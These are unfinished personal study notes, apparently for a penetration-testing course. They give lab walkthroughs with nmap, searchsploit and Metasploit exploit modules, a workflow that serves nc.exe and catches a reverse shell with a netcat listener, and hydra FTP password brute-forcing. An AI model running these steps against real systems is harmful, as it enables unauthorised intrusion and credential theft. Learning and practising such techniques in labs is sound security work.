 # Exploitation
- What is exploitation: consists of techniques and tools used by penetration testers/adveseries to gain an initial foothold on a target system or network
- Succesful Exploitation Will heavily depend on the nature and quality of *information gathering* and *service enumeration* performed on the target
## Penetration Testing Phases
1. Information Gathering
2. Enumeration
3. Exploitation
4. Post Exploitation
   1. Privelege Escalation
   2. Maintain Persistant Access
   3. Clearing Tracks
### Banner grabbing and SSH Recon
- Banner grabbing is an information gathering technique used to enumerate information regarding the target operationg system as well as services that are running on its open ports
- search service version with metasploit: `searchsploit service version` look for version
  
1. cool nmap banner grapping script: `ls -al /usr/share/nmap/scripts/ | grep banner` -> `nmap -sV --script=banner 10.10.x.x` 
2. Netcat: `nc 10.10.x.x 22` <-- port also

### Nmap scripting engine- vulnscanning

- `ls -al /usr/share/nmap/scripts/ | grep search_word`
- Shellshock: `nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/scriptypufound.cgi" 10.10.x.x`

### Search for public Exploits
- Exploit db: vsftpd 2.3.4
- Rapid7

### Lab: HTTP File Server
1. scan: nmap
2. searchsploit: `searchsploit HTTP File Server 2.3`
3. copy to desktop: `searchsploit -m 39161`
4. vim(change exploit, IP, PORT): `vim 39161`
5. start pyhton server: `python -m SimpleHTTPServer 80`
6.  copy netcat:  `cp /usr/share/windows-resources/binaries/nc.exe .`
7. netcat: `nc -nvlp 443`
8. lunch script: `python39161.py 10.10.x.x 80`
9. get flag

### Cross compiling
  ...


### Netcat
- Netcat be used to: Banner grabbing, Port Scanning, Transferring Files, Bind/Reverse shells

### Reverse Shells
- revshells.com
- 
### Lab: Windows: File and Keylogging
1. `nmap -sV 10.10.x.x`
2. `searchsploit badblue 2.7`
3. `msfconsole` -> `use exploit/windows/http/badblue_passthru` --> `set RHOSTS 10.0.0.71` --> run
4. `shell`
5. search flag

### MSF Exploitation
![alt text](/assets/penetration_testing_with_MSF.png)

### Lab: Windows - Workflow platform
1. scan
2. check credentials online for proccess maker
3. `searchsploit ProcessMaker` 
4. launch msfconsole
5. create workspace: workspace -a nameofworkspace
6. `search processmaker`
7. use 0
8. set RHOSTS 10.10.x.x -> run
9. get flag

### Lab: Windows Black Box Penetration test: Exploitation
**Host Discovery**
   1. target `cat /etc/hosts`
   2. ping target
   3. and create file info
**Port Scanning & Enumeration**
*TCP*
   1. `nmap -sV 10.10.x.x`
   2. `nmap -T4 -PA -sV -sC -p 1-10000 10.10.x.x -oX nmap_10k`
   3. `service postgresql start && msfconsole`
   4. in msf: `workspace -a Win258`
   5. import file output: `db_import root/Desktop/wind2k8/nmap_10k`
   6. commands: `hosts`, `services`, set os_name etc -> `search smb_version` --> use 0 --> set RHOSTS -> run
*UDP SCAN*
- `nmap -sU -sV 10.10.x.x`
**Vulnerability detection/scanning**
*Targeting Microsoft IIS FTP*
  1. s
**Exploitation**
*Manual*
### Exploiting FTP
- FTP port 21, file sharing
- Can be anonymous access: check: `nmap -sV 10.10.x.x --script=ftp-anon`
- can be a brute force attack
- Search for version vuln: `searchsploit versionOfFTP`
1. After FTP found: try anonymous `ftp 10.10.x.x 21` 
2. If not 1. : find namp scripts `ls -la /usr/share/nmap/scripts/ | grep ftp-* ` -> run nmap script: `nmap -sV 10.10.x.x --script=ftp-anon`
3. Hydra bruteforce: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.x.x -t 4 ftp`
4. login: `ftp 10.10.x.x` --> fill in username and password --> to download / show file `get secret.txt`


6. check version: `searchsploit FTP version`
7. check for anonymous: `nmap -sV 10.10.x.x --script=ftp-anon`

*Automated*
**Post Exploitation**
*Privelege Escalation*
*Persistence*
*Dumping Hashes*


### Linux Black box penetration test
1. nmap -sV 10.10.x.x
2. nmap -sV -sC -O -p 1-1000 10.10.x.x -oX nmap_10k
3. 